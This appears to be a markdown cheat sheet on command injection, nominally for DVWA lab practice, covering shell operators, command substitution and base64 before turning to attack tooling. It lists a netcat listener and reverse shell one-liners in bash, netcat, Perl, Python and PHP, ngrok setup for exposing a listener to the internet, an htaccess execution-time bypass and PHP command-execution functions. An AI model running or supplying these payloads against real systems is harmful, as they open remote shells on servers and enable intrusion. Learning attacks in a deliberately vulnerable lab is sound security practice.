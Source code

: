 ## 1. Command Injection Attack

![](https://i.ytimg.com/vi/UBWMLFbjPBc/maxresdefault.jpg)
>We will use DVWA Labs To Learn Command Injection Attacks

# Linux Command syntax
| Character | Action |
|--|--|
| ; | And |
| && | And |
| \|\| | Or |
| \| | Share Output To Second Command |
| * | It can be use as 'all' or  auto complete |
```
ls -lah /tmp
```
>ls = command to be executed, -lah = Options, /tmp = Argument

# Command Substitution

```
echo $(pwd)
echo `whoami`
```

# Base64 Encoding/Decoding

```
echo "yellphonenaing" | base64
Output => eWVsbHBob25lbmFpbmcK

echo "eWVsbHBob25lbmFpbmcK" | base64 -d
Output => yellphonenaing
```

# Reverse Shell Connection

**Listening**
```
nc -lvp 8080
```

**BASH**
```
bash -i >& /dev/tcp/127.0.0.1/8080 0>&1
```

**Netcat**
```
nc -e /bin/sh 127.0.0.1 8080
```

**Perl**
```
perl -e 'use Socket;$i="127.0.0.1";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

**Python**
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**PHP**
```
php -r '$sock=fsockopen("127.0.0.1",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```

# Port Forwarding
**Install And Setup Ngrok**
```
cd /tmp
wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-arm.zip
unzip ngrok-stable-linux-arm.zip && sudo chmod 755 /usr/bin/ngrok
sudo cp ngrok /usr/bin # (For Linux)
cp ngrok $PREFIX/bin && chmod 755 /usr/bin/ngrok (For Termux)
ngrok authtoken  tokenishere #(Token can be got at https://ngrok.com/)
```

**Start TCP Port Forwarding**
```
ngrok tcp 1234 #1234 is your custom port number
```

# Bypassing

**Max Execution Time**
>It can be bypassed with htaccess
```
<IfModule mod_php5.c>
php_value max_execution_time 300
</IfModule>
```

**PHP Functions**
```
<?php
exec('whoami');
system('whoami');
passthru('whoami');
shell_exec('whoami');
echo `whoami`;
$handle = popen("/bin/whoami 2>&1", "r");
$output="";
if($handle) {
  while($tmp = fgets($handle))
      $output .= $tmp;
  $output .= "\n\nResult = " . pclose($handle);
}
else $output = "popen failed";
echo $output;
?>
```
